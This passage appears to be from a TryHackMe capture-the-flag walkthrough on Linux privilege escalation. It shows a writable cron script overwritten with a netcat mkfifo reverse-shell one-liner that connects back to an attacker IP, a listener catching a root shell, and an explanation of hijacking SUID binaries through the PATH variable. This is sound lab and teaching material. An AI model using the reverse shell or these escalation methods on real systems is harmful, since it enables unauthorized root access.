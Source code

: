 `/home/user4/Desktop/`

6. Lets replace the contents of the file with our payload using: "`echo [MSFVENOM OUTPUT] > autoscript.sh`"

```
user4@polobox:~$ echo "mkfifo /tmp/mrimb; nc 10.8.106.222 8888 0</tmp/mrimb | /bin/sh >/tmp/mrimb 2>&1; rm /tmp/mrimb" > /home/user4/Desktop/autoscript.sh 
user4@polobox:~$ cat /home/user4/Desktop/autoscript.sh 
mkfifo /tmp/mrimb; nc 10.8.106.222 8888 0</tmp/mrimb | /bin/sh >/tmp/mrimb 2>&1; rm /tmp/mrimb
```

`No answer needed`

7. After copying the code into autoscript.sh file we wait for cron to execute the file, and start our netcat listener using: "`nc -lvp 8888`" and wait for our shell to land!

```
kali@kali:~/CTFs/tryhackme/Common Linux Privesc$ nc -nlvp 8888
listening on [any] 8888 ...
```

`No answer needed`

8. After about 5 minutes, you should have a shell as root land in your netcat listening session! Congratulations!

```
kali@kali:~/CTFs/tryhackme/Common Linux Privesc$ nc -nlvp 8888
listening on [any] 8888 ...
connect to [10.8.106.222] from (UNKNOWN) [10.10.98.105] 43252
whoami
root
```

`No answer needed`

## Task 9 Exploiting PATH Variable

**What is PATH?**

PATH is an environmental variable in Linux and Unix-like operating systems which specifies directories that hold executable programs. When the user runs any command in the terminal, it searches for executable files with the help of the PATH Variable in response to commands executed by a user.

It is very simple to view the Path of the relevant user with help of the command "`echo $PATH`".

**How does this let us escalate privileges?**

Let's say we have an SUID binary. Running it, we can see that it’s calling the system shell to do a basic process like list processes with "ps". Unlike in our previous SUID example, in this situation we can't exploit it by supplying an argument for command injection, so what can we do to try and exploit this?

We can re-write the PATH variable to a location of our choosing! So when the SUID binary calls the system shell to run an executable, it runs one that we've written instead!

As with any SUID file, it will run this command with the same privileges as the owner of the SUID file! If this is root, using this method we can run whatever commands we like as root!
